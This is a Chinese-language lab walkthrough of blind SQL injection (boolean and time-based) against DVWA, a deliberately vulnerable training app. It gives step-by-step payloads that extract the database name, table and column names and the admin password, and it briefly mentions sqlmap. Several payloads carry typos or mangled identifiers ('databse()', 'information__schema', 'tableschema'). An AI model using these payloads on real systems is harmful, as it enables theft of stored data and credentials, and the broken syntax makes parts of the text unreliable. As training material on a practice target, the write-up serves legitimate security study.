







## sql盲注概述


在[这篇文章](https://darkless.cn/2019/05/02/dvwa-sql-injection/)中详细说了sql回显注入的过程，sql盲注相较于回显注入来说难度提升了不少，应为sql盲注界面上不会回显注入结果，我们只能根据界面仅有的提示判断出数据库的表名和字段名等信息。


sql盲注可以分为布尔型，延迟注入等类型，二者的原理大致相同。

1. 布尔盲注：　布尔很明显Ture跟Fales，也就是说它只会根据你的注入信息返回Ture跟Fales，也就没有了之前的报错信息。
2. 时间盲注：　界面返回值只有一种,true 无论输入任何值 返回情况都会按正常的来处理。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。

sql盲注常用的函数：


```sql
lenght()  返回字符串的长度，例如可以返回数据库名字的长度
substr()  用来截取字符串
ascii()  返回字符的ascii码
sleep(n)  将程序挂起一段时间，n为n秒
if(expr1,expr2,expr3)  判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句

```


在DVWA上提供的sql盲注的测试页面，下面将会以布尔型注入和延时注入两种方式来解题。


## Low等级


和sql注入的Low等级一样，此等级未对用户的输入信息做任何过滤，可直接进行注入。


先输入正常的用户ID进行查询：





输入错误的用户ID进行查询：





可见界面上只会给我们回显这两种信息，第一种师输入正确的，第二种是输入错误的，那我们就不断构造sql语句进行注入，sql语句真确就会回显第一种提示，反之就会回显第二种提示。基于这种方式的sql注入就是布尔型注入。

1. 判断是否存在注入，注入是字符型还是数字型

输入1，显示用户存在





输入 1' and 1=1 # 显示用户存在





输入 1' and 1=2 # 显示用户不存在





以上结果说明此处存在数字型的sql盲注

1. 猜解当前数据库名

想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。


```text
输入1' and length(database())=1 #，显示不存在；

输入1' and length(database())=2 #，显示不存在；

输入1' and length(database())=3 #，显示不存在；

输入1' and length(database())=4 #，显示存在;

```


以上结果说明数据库名长度为4 ，**正常情况下请使用二分法**。


同样使用**二分法**猜解数据库名。


```text
输入1' and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；

输入1' and ascii(substr(databse(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；

输入1' and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；

输入1' and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；

输入1' and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；

输入1' and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。

...

```


重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。

1. 猜解数据库中的表名

首先猜解数据库中表的数量：


```text
1' and (select count (table_name) from information__schema.tables where tableschema=database())=1 # 显示不存在

1' and (select count (table__name) from information__schema.tables where tableschema=database() )=2 # 显示存在_

```


说明数据库中共有两个表。


接着挨个猜解表名：


```text
1' and length(substr((select table_name from information__schema.tables where tableschema=database() limit 0,1),1))=1 # 显示不存在

1' and length(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1))=2 # 显示不存在

...

1' and length(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1))=9 # 显示存在_

```


说明第一个表名长度为9。


```text
1’ and ascii(substr((select table_name from information__schema.tables where tableschema=database() limit 0,1),1,1))>97 # 显示存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))<122 # 显示存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))<109 # 显示存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))<103 # 显示不存在

1’ and ascii(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1,1))>103 # 显示不存在_

```


说明第一个表的名字的第一个字符为小写字母g。


...


重复上述步骤，即可猜解出两个表名（guestbook、users）。

1. 猜解表中的字段名

首先猜解表中字段的数量：


```text
1’ and (select count(column_name) from information__schema.columns where tablename= ’users’)=1 # 显示不存在

…

1’ and (select count(column__name) from information__schema.columns where tablename= ’users’)=8 # 显示存在_

```


说明users表有8个字段。


接着挨个猜解字段名：


```text
1’ and length(substr((select column_name from information__schema.columns where tablename= ’users’ limit 0,1),1))=1 # 显示不存在

…

1’ and length(substr((select column__name from information__schema.columns where tablename= ’users’ limit 0,1),1))=7 # 显示存在_

```


说明users表的第一个字段为7个字符长度。


采用二分法，即可猜解出所有字段名。

1. 猜解用户名密码

同样采用二分法。


用户 admin 存在吗？


```text
_1' and (select count() from users where user = 'admin') = 1 #_

```


admin 密码的第一位在 a~m 之间吗？


```text
1' and ascii(substr((select password from users where user = 'admin' limit 1),1,1)) >= 97 and ascii(substr((select password from users where user = 'admin' limit 1),1,1)) <= 109 #

```


...


后续过程略。


还可以使用**基于时间的盲注**：

1. 判断是否存在注入，注入是字符型还是数字型

```text
输入1’ and sleep(5) #，感觉到明显延迟；

输入1 and sleep(5) #，没有延迟；

```


说明存在字符型的基于时间的盲注。

1. 猜解当前数据库名

首先猜解数据名的长度：


```text
1’ and if(length(database())=1,sleep(5),1) # 没有延迟

1’ and if(length(database())=2,sleep(5),1) # 没有延迟

1’ and if(length(database())=3,sleep(5),1) # 没有延迟

1’ and if(length(database())=4,sleep(5),1) # 明显延迟

```


说明数据库名长度为4个字符。


接着采用二分法猜解数据库名：


```text
1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟

…

1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 没有延迟

1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 没有延迟

```


说明数据库名的第一个字符为小写字母d。


…


重复上述步骤，即可猜解出数据库名。

1. 猜解数据库中的表名

首先猜解数据库中表的数量：


```text
1’ and if((select count(table_name) from information__schema.tables where tableschema=database() )=1,sleep(5),1)# 没有延迟

1’ and if((select count(table__name) from information__schema.tables where tableschema=database() )=2,sleep(5),1)# 明显延迟_

```


说明数据库中有两个表。


接着挨个猜解表名：


```text
1’ and if(length(substr((select table_name from information__schema.tables where tableschema=database() limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1))=9,sleep(5),1) # 明显延迟_

```


说明第一个表名的长度为9个字符。


采用二分法即可猜解出表名。

1. 猜解表中的字段名

首先猜解表中字段的数量：


```text
1’ and if((select count(column_name) from information__schema.columns where tablename= ’users’)=1,sleep(5),1)# 没有延迟

…

1’ and if((select count(column__name) from information__schema.columns where tablename= ’users’)=8,sleep(5),1)# 明显延迟_

```


说明users表中有8个字段。


接着挨个猜解字段名：


```text
1’ and if(length(substr((select column_name from information__schema.columns where tablename= ’users’ limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select column__name from information__schema.columns where tablename= ’users’ limit 0,1),1))=7,sleep(5),1) # 明显延迟_

```


说明users表的第一个字段长度为7个字符。


采用二分法即可猜解出各个字段名。

1. 猜解用户名密码

同样采用二分法。


## Medium等级


和sql回显注入一样，Medium可以通过抓包修改参数的方式注入,具体过程和low等级相同.


## High等级





可以看到，High级别的代码利用cookie传递参数id，当SQL查询结果为空时，会执行函数sleep(seconds)，目的是为了扰乱基于时间的盲注。同时在 SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。


虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。但由于服务器端执行sleep函数，会使得基于时间盲注的准确性受到影响，所以可以使用基于布尔的盲注.


## 使用sqlmap进行注入


sql盲注使用手工的方式简直能把人搞崩溃,幸亏有sqlmap这种自动化工具来帮忙. 这里仅演示High等级的sqlmap注入,其它等级和sql回显注入相同,参考[上篇文章](https://darkless.cn/2019/05/02/dvwa-sql-injection/).





## 参考文章


[https://www.freebuf.com/articles/web/120985.html](https://www.freebuf.com/articles/web/120985.html)
[https://www.jianshu.com/p/65f05e7cc957](https://www.jianshu.com/p/65f05e7cc957)

